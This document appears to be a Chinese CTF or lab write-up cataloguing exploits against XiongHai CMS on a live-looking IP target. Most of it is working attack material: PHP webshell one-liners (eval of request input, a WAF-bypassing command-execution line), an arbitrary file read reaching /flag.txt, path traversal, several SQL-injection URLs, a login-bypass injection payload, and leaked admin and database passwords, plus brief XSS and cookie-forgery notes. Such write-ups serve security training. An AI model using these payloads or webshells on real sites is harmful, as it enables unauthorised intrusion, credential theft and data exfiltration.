 本题基于熊海cms

熊海cms所有漏洞均存在

#### 后台弱口令

admin    admin123456

#### 数据库统一密码

root    334cc35b3c704593

#### index.php过盾一句话

```php
a=1;$b="a=".$_GET['a'];parse_str($b);print_r(`$a`);
```

http://117.50.66.102:20801/?a=whoami

#### /files/about.php一句话

```php
eval($_REQUEST['shell']);
```

http://117.50.66.102:20801/?r=about&shell=phpinfo();

#### /files/index.php任意文件读取

```php
$file_path = $_GET['path'] ;
if ( file_exists ( $file_path )){
$str = file_get_contents ( $file_path ); //将整个文件内容读入到一个字符串中
$str = str_replace ( "\r\n" , "<br />" , $str );
echo $str ;
}
```

http://117.50.66.102:20801/?r=index&path=/flag.txt

![image-20210714204333120](http://pic.ocean888.cn/image-20210714204333120.png)

#### 任意文件读取

```url
http://117.50.66.102:20801/?r=../web
```

 本来是包含files文件夹下的php文件，通过目录穿越我们尝试包含web.php

![image-20210714195930393](http://pic.ocean888.cn/image-20210714195930393.png)

mariaDB数据库

```url
http://117.50.66.102:20801/admin/?r=editcolumn&type=1&id=1%27%20and%201=2%20union%20select%201,database(),3,4,5,user(),7,8,9,10--+
```

![image-20210714200255532](http://pic.ocean888.cn/image-20210714200255532.png)

#### 前台留言xss

有一个管理员回复，我们到后台界面留言回复，进行XSS攻击。

![img](http://pic.ocean888.cn/1828215-20200504143046721-1009691688.png)

#### 前台多处sql注入

siteset.php、software.php、download.php等

```php
http://117.50.66.102:20801/?r=software&cid=1%20and%20updatexml(1,concat(0x7e,database(),0x7e),1)#
```

![image-20210714201856175](http://pic.ocean888.cn/image-20210714201856175.png)

#### 后台sql注入

```URL
http://117.50.66.102:20801/admin/?r=editcolumn&type=1&id=1%27
```

![image-20210714200146487](F:\_笔记\mdpic\web2\image-20210714200146487.png)

#### 后台登陆sql注入

![image-20210714202154297](http://pic.ocean888.cn/image-20210714202154297.png)

```php
admin 'and updatexml(1,concat(0x7e,(SELECT group_concat(password) FROM manage),0x7e),1)#
```

利用SQL注入直接登录

**payload:**

```plain
user:1' union select 1,2,'test','c4ca4238a0b923820dcc509a6f75849b',5,6,7,8# 
password:1 
```

check login.php

#### 后台任意用户登录
请求任意后台页面，在http请求中加入cookie信息

![img](http://pic.ocean888.cn/aHR0cHM6Ly91cGxvYWRlci5zaGltby5pbS9mL2V1WHNZaUdpV2JlT1BwT08ucG5nIXRodW1ibmFpbA)

#### 推荐阅读

https://blog.csdn.net/q20010619/article/details/108046071

